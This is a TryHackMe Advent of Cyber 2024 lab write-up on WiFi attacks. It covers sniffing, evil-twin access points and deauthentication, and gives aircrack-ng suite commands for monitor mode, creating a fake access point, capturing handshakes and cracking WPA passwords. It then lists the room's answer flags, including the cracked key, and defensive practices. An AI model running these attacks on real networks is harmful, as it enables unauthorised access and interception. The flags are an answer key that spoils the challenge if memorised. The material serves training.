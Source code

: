 # **TryHackMe Writeup: Day 11 - WiFi Attacks (Advent of Cyber 2024)**

## **Overview**
- **Room Name**: Day 11: WiFi Attacks
- **Difficulty**: Medium
- **Category**: Wireless Security
- **Objective**: Understand various types of WiFi attacks and learn how to execute and defend against them.
- **Tools**: Aircrack-ng, Kismet, Reaver, Wireshark

---

## **Table of Contents**
1. [Introduction](#introduction)
2. [Types of WiFi Attacks](#types-of-wifi-attacks)
3. [Executing a WiFi Attack](#executing-a-wifi-attack)
4. [Defending Against WiFi Attacks](#defending-against-wifi-attacks)
5. [Conclusion](#conclusion)

---

## **Introduction**

WiFi networks are susceptible to a variety of attacks due to their wireless nature. This challenge explores common WiFi attacks, including packet sniffing, rogue access points, and WPA/WPA2 cracking. By understanding these threats, participants can better protect wireless networks from unauthorized access and data breaches.

---

## **Types of WiFi Attacks**

### 1. Packet Sniffing
Packet sniffing involves capturing network traffic to extract sensitive information like passwords or financial data. Tools like Wireshark are commonly used for this purpose.

### 2. Rogue Access Points
Attackers set up unauthorized access points to mimic legitimate ones, tricking users into connecting to them. This allows attackers to intercept data or launch further attacks.

### 3. Evil Twin Attacks
An evil twin attack involves creating a malicious network that appears identical to a legitimate one. Users unknowingly connect to the evil twin, allowing attackers to capture sensitive information.

### 4. WPA/WPA2 Cracking
Attackers exploit vulnerabilities in WPA/WPA2 protocols to gain unauthorized access to encrypted wireless networks using tools like Aircrack-ng and Reaver.

### 5. Deauthentication Attacks
Deauthentication attacks forcefully disconnect devices from a network by sending deauthentication frames, disrupting communication and potentially leading users to connect to rogue networks.

---

## **Executing a WiFi Attack**

### Step 1: Setting Up the Environment

1. **Enable Monitor Mode** on your wireless interface:
   ```bash
   airmon-ng start wlan2
   ```

2. **Scan for Networks** using Kismet or Airodump-ng:
   ```bash
   airodump-ng wlan2
   ```

#### Screenshot:
![Network Scanning](images/network-scanning.png)  
*This screenshot shows the scanning of available networks.*

### Step 2: Performing an Evil Twin Attack

1. **Create a Fake Access Point** using Airbase-ng:
   ```bash
   airbase-ng -e "Free_WiFi" -c 6 wlan2
   ```

2. **Capture Handshakes** for WPA/WPA2 cracking:
   ```bash
   airodump-ng --bssid <AP_MAC> -c <CHANNEL> -w capture wlan2
   ```

### Step 3: Cracking WPA/WPA2 Passwords

1. **Use Aircrack-ng** to crack the captured handshake:
   ```bash
   aircrack-ng -w /path/to/wordlist.txt capture-01.cap
   ```

#### Screenshot:
![Password Cracking](images/password-cracking.png)  
*This screenshot shows the process of cracking a WPA/WPA2 password.*

---

#### **Answer the Questions:**
1. **What is the BSSID of our wireless interface?**
   - Flag: `02:00:00:00:02:00`

2. **What is the SSID and BSSID of the access point? Format: SSID, BSSID**
   - Flag: `MalwareM_AP, 02:00:00:00:00:00`

3. **What is the BSSID of the wireless interface that is already connected to the access point?**
   - Flag: `02:00:00:00:01:00`

4. **What is the PSK after performing the WPA cracking attack?**
   - Flag: `fluffy/champ24`

---

## **Defending Against WiFi Attacks**

### Best Practices:

1. **Strong Encryption**: Use WPA3 or at least WPA2 with strong passwords.
2. **Disable WPS**: WPS is vulnerable and should be disabled if not needed.
3. **Network Monitoring**: Regularly monitor network traffic for suspicious activity.
4. **MAC Filtering**: Implement MAC address filtering to restrict device connections.
5. **User Education**: Educate users about the risks of connecting to unknown networks.

---

## **Conclusion**

Understanding WiFi attacks is crucial for securing wireless networks against unauthorized access and data breaches.

### Key Takeaways:
1. Wireless networks are vulnerable to various attacks due to their open nature.
2. Tools like Aircrack-ng and Kismet are powerful for both attacking and defending networks.
3. Implementing strong security measures can significantly reduce the risk of successful attacks.

By applying these practices, network administrators can better protect their environments from wireless threats.

---